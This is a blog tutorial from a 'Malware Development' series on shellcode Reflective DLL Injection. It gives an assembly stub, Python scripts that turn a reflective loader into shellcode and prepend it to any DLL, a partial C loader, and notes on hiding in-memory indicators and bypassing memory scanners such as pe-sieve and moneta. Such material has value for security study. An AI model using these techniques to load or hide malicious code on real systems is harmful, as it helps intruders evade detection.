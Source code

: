 ```yaml
---
title: "shellcode Reflective DLL Injection"
description: 
    In the previous chapter, RDI was presented and with improvements, now the Reflective DLL Injection (sRDI) shellcode will be presented. With RDI it is necessary to write the reflexive function exported from the dll, but with sRDI we can "patch" any Dll so that the reflective function is at the beginning of the file, so all the steps previously presented will be carried out and when it arrives in the PE it will be executed normally this is done by creating a shellcode. This isn't very difficult when we already have the RDI ready, so this chapter won't be very long.
author: Oblivion
date: 2024-07-20 14:10:00 +0800
categories: [Malware Development]
tags: []
render_with_liquid: false
---
```


# Steps

- Transforming Reflective Loader for PIC code
- Extract text section from Reflective Loader
- Attach Reflective Loader shellcode before PE

## Transforming Reflective Loader for PIC

We need to do the same as we did in ... and ..., we will use the Stack alignment as "main" to call our Reflective Function.

```
section .text

extern OblivLdr

WinMain:                         
    push rsi                      
    mov  rsi, rsp                 
    and  rsp, 0xFFFFFFFFFFFFFFF0  
    sub  rsp, 0x20                
    call ReflectiveLdr                     
    mov  rsp, rsi                 
    pop  rsi                      
    ret        
```

## Extract text section from Reflective Loader

I will use the same python script that was used in the ... serie, to extract the text section

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import pefile
import argparse

# Credits: https://github.com/Cracked5pider

def main():
    try:

        parser = argparse.ArgumentParser( description = 'Extracts shellcode from a PE.' )
        parser.add_argument( '-f', required = True, help = 'Path to the source executable', type = str )
        parser.add_argument( '-o', required = True, help = 'Path to store the output raw binary', type = str )
        option = parser.parse_args()

        PeExe = pefile.PE( option.f )
        file = open( option.o, 'wb+' )

        for section in PeExe.sections:

            if section.Name.replace( b'\x00', b'' ).decode( 'utf-8' ) == ".text":
                
                print( f"[*] found shellcode [size: {len(section.get_data())} bytes]" )


                file.write( section.get_data() )

                break

        file.close()

    except Exception as e:
        print( '[!] error: {}'.format( e ) )

    return

if __name__ in '__main__':
    main()
```

## Attach Reflective Loader shellcode before the PE

The Python script was changed to receive the Reflective Loader and the DLL and thus generate an output with the dll's shellcode

```python
#!/usr/bin/env python3

import argparse
import pefile

def read_file(file_path):
    with open(file_path, 'rb') as file:
        return file.read()

def write_file(file_path, data):
    with open(file_path, 'wb') as file:
        file.write(data)

def extract_text_section(pe_path):
    pe = pefile.PE(pe_path)
    for section in pe.sections:
        if section.Name.replace(b'\x00', b'').decode('utf-8') == ".text":
            print(f"[*] Found .text section [size: {len(section.get_data())} bytes]")
            return section.get_data()
    raise ValueError("No .text section found in the PE file.")

def insert_data_into_pe(bin_data, pe_path, output_path):
    pe_data = read_file(pe_path)
    new_data = bin_data + pe_data
    write_file(output_path, new_data)

def main():
    parser = argparse.ArgumentParser(description='Insert the .text section of a source PE file into the beginning of a destination PE file.')
    parser.add_argument('-r', '--reflectiveldr', required=True, help='Path to the source PE file')
    parser.add_argument('-d', '--dll', required=True, help='Path to the destination PE file')
    parser.add_argument('-o', '--output', required=True, help='Path to the output PE file')
    args = parser.parse_args()

    try:
        text_section_data = extract_text_section(args.reflectiveldr)
        insert_data_into_pe(text_section_data, args.dll, args.output)
        print(f"[*] Successfully inserted .text section into {args.output}")
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    main()
```

-----------

We have a problem to solve. The way we were using to find the base address will no longer work as the PE will not be on top of the allocated memory. Instead, our reflective function will occupy this position. Therefore, we need to change the approach.

I decided to get the return address via the reflective function. With this, we will be able to determine the base address, which will be the beginning of stack alignment. From there, we will add up the size of our shellcode.

```c
BOOL ReflectiveLdr( LPVOID lpParameter ) {

    LPVOID    DllAddr  = NULL;
    DWORD     dwOffset = 0x00;

	ULONG_PTR LibAddr = 0x00;

    asm volatile ("mov %0, rax"   : "=r" (LibAddr));
    asm volatile ("add %0, 0x800" : "+r" (LibAddr));
    
    //...rest of the code...
```

# Observations

I will compile a DLL that executes a MessageBox just for a brief explanation. We have a problem regarding Indicators of Compromise (IOCs) in memory in relation to the DLL shellcode. It will still have PE magic bytes, section names, and all PE data. I will show how it looks in a hexadecimal editor called ImHex.

![img](../commons/shellcode_rdi/img1.png)

You may think "I can simply encrypt the shellcode" this idea will not be as effective because to execute the shellcode it would be decrypted and could be caught at runtime easily by memory scans. We also cannot delete all information from the PE because we need specific information from the header to parse and execute reflective loading. What we can do is replace only data that we are not using, which are as follows

![img](../commons/shellcode_rdi/img2.png)
Source image: [x-force/defining-cobalt-strike-reflective-loader](https://securityintelligence.com/x-force/defining-cobalt-strike-reflective-loader/)


You can use other approaches like stomping/overloading to support the memory and we also apply a memory analysis evasion technique, in the next articles I will address this topic and bypass memory scans such as pe-sieve and moneta.
